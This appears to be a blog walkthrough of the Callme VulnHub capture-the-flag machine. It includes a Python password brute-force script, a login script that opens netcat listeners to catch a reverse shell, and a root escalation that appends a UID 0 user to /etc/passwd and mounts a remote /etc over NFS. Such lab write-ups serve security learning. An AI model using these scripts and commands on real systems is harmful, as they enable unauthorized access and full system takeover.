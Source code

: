 ```yaml
---
layout: post
title:  "Callme - VulnHub"
---
```

You’ll find this vm here :  `https://www.vulnhub.com/entry/callme-1,615/`

## VulnHub - Callme

#### Port Scan

- Nmap found three open ports: `22`, `111` and `2323`
- For now let's focus on port `2323`

![image]( /assets/img/callme/1.PNG)

#### Finding correct username

- The server asking for username & password<
- After the login attempt with a random credentials, the message "user does not exist" appeared
- This will help us to identify the valid usernames

![image]( /assets/img/callme/2.PNG)

I tried common username like admin, and the message "user does not exist" not appeared.<br> So, `admin` is a valid username

![image]( /assets/img/callme/3.PNG)

####  Creating brute force script

{% highlight python %}
import socket
import time

print("Script by Alienum, vm by Foxlox")
with open('10-million-password-list-top-1000000.txt') as file:
 for password in file:
  username = b"admin"
  ip = "10.0.2.108"
  port = 2323
  s = socket.socket()
  s.connect((ip, port))
  print(s.recv(1024))
  print(s.recv(1024))
  s.send(username+b'\r\n')
  print(s.recv(1024))
  s.send(password.strip().encode()+b'\r\n')
  re = s.recv(1024)
  print(re)
  print(s.recv(1024))
  print(password.strip())
  time.sleep(1.2)
  if not "Wrong password for user admin" in str(re):
   print("FOXYFOXYFOXYFOXYFOXYFOXYFOXY")
   print(password)
   break
{% endhighlight %}

- After a few minutes the password found

![image]( /assets/img/callme/4.PNG)

Each time we successfully log in to the system, it returns a random number in words.<br>Let's understand what it means

![image]( /assets/img/callme/5.PNG)

#### Tcpdump to understand

<code>sudo tcpdump -XX -i eth0 src TARGET_IP</code>

We understand that every time we successfully connect to the server, it tries to connect to the port of our system that it had previously sent in a number with words. For example, if the server sends `ONE THOUSAND FOUR HUNDRED  TWELVE` it tries to connect to our system to port `1412`

![image]( /assets/img/callme/6.PNG)

#### Creating login & listener script

{% highlight python %}
from word2number import w2n
import socket
import time
import os
print("Script by Alienum, vm by Foxlox")

while True:
 username = b"admin"
 password = b"booboo"
 ip = "10.0.2.108"
 port = 2323
 s = socket.socket()
 s.connect((ip, port))
 print(s.recv(1024))
 print(s.recv(1024))
 s.send(username+b'\r\n')
 print(username)
 print(s.recv(1024))
 s.send(password+b'\r\n')
 print(password)
 re = s.recv(1024)
 print(re)
 w2n = w2n.word_to_num(re.decode().lower().strip())
 cmd = "nc -lvnp "+str(w2n)
 os.system(cmd)
{% endhighlight %}


- After running the script we have the shell


![image]( /assets/img/callme/7.PNG)


#### SSH Login, avoid wine shell

![image]( /assets/img/callme/8.PNG)

![image]( /assets/img/callme/9.PNG)

#### Searching fox's password

```
cat startup
find / -name "recallserver.exe" 2>/dev/null
```

![image]( /assets/img/callme/10.PNG)

- strings command not found so we need to download recallserver.exe locally

![image]( /assets/img/callme/11.PNG)

- We found the possible password for user fox, the possible password is `tutankamenFERILLI`

![image]( /assets/img/callme/12.PNG)

#### Privileges Escalation

![image]( /assets/img/callme/13.PNG)

- Writing a user to /etc/passwd locally

{% highlight python %}
openssl passwd -1
Password: alienum
Verifying - Password: alienum
1$dccSREO8$l8xVLythU9r4WQ1/4R1tq/
{% endhighlight %}

``` echo 'alien:$1$dccSREO8$l8xVLythU9r4WQ1/4R1tq/:0:0::/root:/bin/bash' >> /etc/passwd```

![image]( /assets/img/callme/14.PNG)

- In the target system

```
 sudo mount.nfs 10.0.2.106:/etc /etc
```

![image]( /assets/img/callme/15.PNG)

#### Rooted

![image]( /assets/img/callme/16.PNG)
